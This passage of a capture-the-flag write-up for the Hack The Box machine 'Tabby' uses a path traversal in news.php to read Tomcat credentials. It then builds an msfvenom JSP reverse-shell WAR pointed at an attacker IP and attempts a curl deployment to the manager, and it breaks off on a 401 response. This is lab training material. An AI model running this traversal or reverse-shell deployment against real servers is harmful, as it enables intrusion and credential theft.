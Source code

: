 
Thats bad. I note the page I got from the failed admin login earlier:

`please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.`

I google and it seems the conf/tomcat-users.xml file is installed to CATALINA_HOME/conf/tomcat-users.xml

where CATALINA_HOME is the tomcat installation directory. I google some more and see: `By default, CATALINA_HOME is /usr/share/tomcat6, and CATALINA_BASE is /var/lib/tomcat6.`

Now I know from the installation successfull that we are running tomcat 9, so I try /usr/share/tomcat9, but it does not work.

I struggle for a bit, until I try to view the page source because I was looking for news.php. which I did not have to do on the passwd file. But everything could be commented out

`view-source:http://megahosting.htb/news.php?file=../news.php`

gives me:

```
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

And `view-source:http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml`

Gives the creds: tomcat:$3cureP4s5w0rd123!

I log onto the Host manager panel.

I google how to upload a .WAR file via the tomcat api and find this:

`curl --upload-file appplication-0.1-1.war "http://tomcat:tomcat@localhost:8080/manager/deploy?path=/application-0.1-1`


```
root@kali:/home/kali/htb/Tabby# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=1337 -f war > god_of.war
Payload size: 1497 bytes
```

`curl --upload-file god_of.war "http://tomcat:$3cureP4s5w0rd123!@megahosting.htb:8080/manager/deploy?path=/god_of"`


I try this:

```
root@kali:/home/kali/htb/Tabby# curl --upload-file god_of.war "http://tomcat:$3cureP4s5w0rd123\!@megahosting.htb:8080/manager/html/deploy?path=/god_of"
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>401 Unauthorized</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
```